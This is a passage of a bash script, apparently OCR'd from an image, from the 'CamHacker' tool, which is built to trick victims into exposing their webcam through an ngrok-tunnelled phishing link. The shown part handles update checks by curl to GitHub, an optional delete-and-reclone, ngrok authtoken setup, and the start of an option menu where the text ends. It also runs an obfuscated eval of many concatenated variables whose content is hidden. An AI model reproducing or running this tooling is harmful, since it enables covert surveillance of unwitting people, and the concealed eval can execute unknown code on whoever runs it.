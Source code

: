 # Check for update
netcheck
eval "$Az$Bz$Cz$Dz$Ez$Fz$Gz$Hz$Iz$Zz$Jz$Kz$z$Lz$z$Mz$Nz$Oz$Pz$Qz$Rz$Sz$Tz$Uz$z$Vz$Yz$z$Wz"
git_ver=`curl -s -N https://raw.githubusercontent.com/KasRoudra/CamHacker/main/files/version.txt`
if [[ "$version" != "$git_ver" && "$git_ver" != "404: Not Found" ]]; then
    changelog=`curl -s -N https://raw.githubusercontent.com/KasRoudra/CamHacker/main/files/changelog.log`
    clear
    echo -e "$logo"
    echo -e "${info}CamHacker has a new update!\n${info}Current: ${red}${version}\n${info}Available: ${green}${git_ver}\n"
        printf "${ask}Do you want to update CamHacker?${yellow}[y/n] > $green"
        read upask
        printf "$nc"
        if [[ "$upask" == "y" ]]; then
            cd .. && rm -rf CamHacker camhacker && git clone https://github.com/KasRoudra/CamHacker
            echo -e "\n${success}CamHacker updated successfully!!"
            if [[ "$changelog" != "404: Not Found" ]]; then
            echo -e "${purple}[•] Changelog:\n${blue}${changelog}"
            fi
            exit
        elif [[ "$upask" == "n" ]]; then
            echo -e "\n${info}Updating cancelled. Using old version!"
            sleep 2
        else
            echo -e "\n${error}Wrong input!\n"
            sleep 2
        fi
fi

# Ngrok Authtoken
if ! [[ -e $HOME/.ngrok2/ngrok.yml ]]; then
    echo -e "\n${ask}Enter your ngrok authtoken:"
    printf "${cyan}\nCam${nc}@${cyan}Hacker ${red}$ ${nc}"
    read auth
    if [ -z $auth ]; then
        echo -e "\n${error}No authtoken!\n\007"
        sleep 1
    else
        cd $HOME/.ngrokfolder && ./ngrok authtoken ${auth}
    fi
fi

# Start Point
while true; do
clear
echo -e "$logo"
sleep 1
echo -e "${ask}Choose a option:
